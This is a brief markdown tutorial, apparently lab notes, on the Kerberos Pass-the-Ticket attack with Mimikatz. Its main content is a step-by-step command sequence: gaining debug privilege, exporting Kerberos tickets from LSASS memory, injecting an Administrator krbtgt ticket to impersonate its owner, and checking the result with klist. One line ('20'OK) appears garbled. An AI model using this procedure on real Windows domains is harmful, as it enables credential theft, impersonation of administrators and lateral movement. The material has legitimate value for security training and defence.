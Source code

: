 # Pass The Ticket Attack

### How it works
1) Mimikatz dumps the TGT from LSASS (it will return a kirbi ticket)
2) Pass the ticket and acts as it's original owner

## Dump the ticket
```cmd
mimikatz.exe
privilege::debug
```

Ensure this output is '20'OK
If it doesn't, it means that you don't have admin privileges

```cmd
sekurlsa::tickets /export
```

This will export the ticket (.kirbi) to the directory you're in


## Pass the ticket
If you leave mimikatz, you will see that there are tickets in the directory. 
Copy the one that is interesting for you and return to mimiktatz

```cmd 
mimikatz.exe
```

This will cache the ticket and impersonate it

```cmd
kerberos::ptt [0;193f8c]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
```

- The ticket looks like (it's the name of the file): `[0;193f8c]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi`
- The output should be `* File : <Stuff> OK`

## List cached tickets
We are just verifying that we successfully impersonated the ticket by listing our cached tickets. 
```cmd
klist
```
